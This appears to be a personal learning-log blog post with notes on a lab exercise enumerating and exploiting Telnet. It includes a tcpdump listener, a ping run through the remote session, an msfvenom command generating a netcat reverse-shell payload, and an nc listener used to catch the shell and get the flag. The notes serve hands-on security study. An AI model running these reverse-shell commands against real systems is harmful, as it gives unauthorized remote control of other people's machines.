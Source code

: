 ```yaml
---
title: Post 27 - Telling of the net
date: 2022-12-31
---
```

## Network Services part 4
### Enumerating Telnet
Same process as with SMB, start with a port scan. 

Answered the questions

### Exploiting Telnet
Since I always forget,<br>
**CVE** - Common Vulnerabilities and Exposures

Even though CVEs exist for telnet, still far more likely to find a misconfiguration to exploit. 

### The Next Task
Try connecting to system scanned in previous task. 

Need to use a listener, can use tcpdump with <code>sudo tcpdump ip proto \\icmp -i eth0</code> to start a tcpdump listner listening for icmp traffic. Only use eth0 for Atackbox, use tun0 for vpn connection. Initiate a ping on remote session using <code>.RUN ping [ip address] -c 1</code> where ip address is the local machine to see if can send commands to remote session, and if connected all the way back.

Create a reverse shell with <code>msfvenom -p cmd/unix/reverse_netcat lhost=[local ip] lport=4444 R</code> where:
- -p = payload (cmd/unix/reverse_netcat)
- lohost = local ip address
- lport = local port to listen on
- R = export payload in raw format

Start netcat listener with <code>nc -lvp 4444</code>. Once connected, can run commands through listener.

Answered all questions and got the flag.